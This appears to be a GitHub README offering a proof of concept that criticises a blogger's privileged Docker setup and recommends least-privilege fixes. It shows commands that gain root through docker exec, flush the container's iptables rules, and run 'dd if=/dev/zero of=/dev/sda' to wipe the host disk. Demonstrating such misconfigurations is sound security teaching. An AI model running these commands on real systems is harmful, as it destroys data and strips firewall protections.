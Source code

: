 # How to hack your container

## Motivation

This repo is for PoC purpose. It demos my points that the blogger from [the blog here](https://dev.to/andre/docker-restricting-in--and-outbound-network-traffic-67p) is not securing his container at all. 

In his approach, he containerized a Node.js app. But he kept root permission in Dockerfile without switching to a unprivileged user. He also forced user to provide `--privileged` permission when lauching container so that he can manipulate iptables **inside** the container. He thought it was safe that he could switch user when launching his Node.js app.

It is wrong.

Obviously, he violated [the principles of least privilege in security](https://en.wikipedia.org/wiki/Principle_of_least_privilege). His misconfiguration in container opens up the door rather than secure the data.

My PoC steps below shows that anyone with docker group permission can bypass his firewall rule defined inside the container and also do some serious damage to the host machine `/dev`, i.e. no limit access hardware like hard disk.

There is a proper way to do this sort of things. For example, 

- Use `USER app` in his Dockerfile rather than switch user in `entrypoint.sh`.
- Modify firewall rule in the host rather than do that in the container. 

Our Internet is full of disinformation. Do **NOT** copy and paste anything blindly and think it is truth.

## Step 1 Create any long running container

You are unprivileged app user, right?

```
docker run --privileged --name "foobar" -it --rm rizhan/demo-misconfiguration-security-flaw  "/bin/sh"
$ whoami
app

```

## Step 2 Jail break

How about now?

- Remove your iptables

```
docker exec -it foobar /bin/sh


/ # whoami
root
/ # iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     all  --  192.168.0.0/24       anywhere            
DROP       all  --  anywhere             anywhere            

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     all  --  anywhere             192.168.0.0/24      
DROP       all  --  anywhere             anywhere            
/ # iptables -F
/ # iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination      
```

- How about zero out your hard drive?

```
/ # ls /dev
autofs              hidraw3             network_latency     snd                 tty30               tty58               ttyS27              vcs5
bsg                 hidraw4             network_throughput  stderr              tty31               tty59               ttyS28              vcs6
btrfs-control       hidraw5             null                stdin               tty32               tty6                ttyS29              vcsa
bus                 hpet                nvram               stdout              tty33               tty60               ttyS3               vcsa1
console             hwrng               port                tpm0                tty34               tty61               ttyS30              vcsa2
core                i2c-0               ppp                 tty                 tty35               tty62               ttyS31              vcsa3
cpu                 i2c-1               ptmx                tty0                tty36               tty63               ttyS4               vcsa4
cpu_dma_latency     i2c-2               ptp0                tty1                tty37               tty7                ttyS5               vcsa5
cuse                i2c-3               pts                 tty10               tty38               tty8                ttyS6               vcsa6
dm-0                i2c-4               random              tty11               tty39               tty9                ttyS7               vcsu
dm-1                i2c-5               raw                 tty12               tty4                ttyS0               ttyS8               vcsu1
dm-10               i2c-6               rtc0                tty13               tty40               ttyS1               ttyS9               vcsu2
dm-2                i2c-7               sda                 tty14               tty41               ttyS10              udmabuf             vcsu3
dm-3                i2c-8               sda1                tty15               tty42               ttyS11              uhid                vcsu4
dm-4                input               sda2                tty16               tty43               ttyS12              uinput              vcsu5
dm-5                kmsg                sdb                 tty17               tty44               ttyS13              urandom             vcsu6
dm-6                kvm                 sdb1                tty18               tty45               ttyS14              usbmon0             vfio
dm-7                loop-control        sdc                 tty19               tty46               ttyS15              usbmon1             vga_arbiter
dm-8                loop0               sdc1                tty2                tty47               ttyS16              usbmon2             vhci
dm-9                lp0                 sdc2                tty20               tty48               ttyS17              usbmon3             vhost-net
dri                 lp1                 sdd                 tty21               tty49               ttyS18              usbmon4             vhost-vsock
drm_dp_aux0         lp2                 sdd1                tty22               tty5                ttyS19              vboxdrv             watchdog
drm_dp_aux1         lp3                 sdd2                tty23               tty50               ttyS2               vboxdrvu            watchdog0
fb0                 mapper              sg0                 tty24               tty51               ttyS20              vboxnetctl          watchdog1
fd                  mcelog              sg1                 tty25               tty52               ttyS21              vboxusb             zero
full                mei0                sg2                 tty26               tty53               ttyS22              vcs
fuse                mem                 sg3                 tty27               tty54               ttyS23              vcs1
hidraw0             memory_bandwidth    sg4                 tty28               tty55               ttyS24              vcs2
hidraw1             mqueue              shm                 tty29               tty56               ttyS25              vcs3
hidraw2             net                 snapshot            tty3                tty57               ttyS26              vcs4

/ # dd if=/dev/zero of=/dev/sda
```
